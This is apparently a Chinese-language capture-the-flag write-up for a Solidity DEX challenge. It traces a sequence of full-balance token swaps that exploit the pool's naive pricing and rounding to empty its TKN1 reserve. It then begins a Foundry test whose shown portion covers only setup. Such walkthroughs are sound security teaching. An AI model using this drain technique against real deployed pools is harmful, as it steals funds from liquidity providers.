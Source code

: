 我们的策略是通过在两种代币之间反复交换我们的全部余额来放大这个舍入误差。

1.  **初始状态**: Player (10 TKN1, 10 TKN2), Dex (100 TKN1, 100 TKN2). 价格比为 1:1。

2.  **第一次交换 (10 TKN1 -> TKN2)**:
    -   `amountOut = (10 * 100) / 100 = 10`
    -   Player: (0 TKN1, 20 TKN2)
    -   Dex: (110 TKN1, 90 TKN2)

3.  **第二次交换 (20 TKN2 -> TKN1)**:
    -   `amountOut = (20 * 110) / 90 = 24.44...` -> **舍入后为 24**
    -   Player: (24 TKN1, 0 TKN2)
    -   Dex: (86 TKN1, 110 TKN2)

4.  **第三次交换 (24 TKN1 -> TKN2)**:
    -   `amountOut = (24 * 110) / 86 = 30.69...` -> **舍入后为 30**
    -   Player: (0 TKN1, 30 TKN2)
    -   Dex: (110 TKN1, 80 TKN2)

5.  **第四次交换 (30 TKN2 -> TKN1)**:
    -   `amountOut = (30 * 110) / 80 = 41.25` -> **舍入后为 41**
    -   Player: (41 TKN1, 0 TKN2)
    -   Dex: (69 TKN1, 110 TKN2)

6.  **第五次交换 (41 TKN1 -> TKN2)**:
    -   `amountOut = (41 * 110) / 69 = 65.36...` -> **舍入后为 65**
    -   Player: (0 TKN1, 65 TKN2)
    -   Dex: (110 TKN1, 45 TKN2)

现在，我们手上有65个TKN2，而Dex池中只剩下110个TKN1和45个TKN2。我们只需要用45个TKN2就可以换走池里所有的110个TKN1。

7.  **最终交换 (45 TKN2 -> TKN1)**:
    -   `amountOut = (45 * 110) / 45 = 110`
    -   Player: (110 TKN1, 20 TKN2)
    -   Dex: (0 TKN1, 90 TKN2) -> **TKN1 被耗尽！**

通过这种方式，我们利用了整数除法的舍入误差，在每次交易中都获得了微小的优势，并最终将这种优势累积到足以清空整个池子。

## 💻 Foundry 实现

### Foundry 测试代码

测试代码将模拟上述的交换流程。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/22_Dex.sol";

contract DexTest is Test {
    Dex instance;
    address player;
    SwappableToken token1;
    SwappableToken token2;

    function setUp() public {
        player = vm.addr(1);
        instance = new Dex();

        // 部署并设置代币
        token1 = new SwappableToken(address(instance), "Token 1", "TKN1", 110);
        token2 = new SwappableToken(address(instance), "Token 2", "TKN2", 110);
        instance.setTokens(address(token1), address(token2));

        // 添加流动性
        token1.approve(address(instance), 100);
```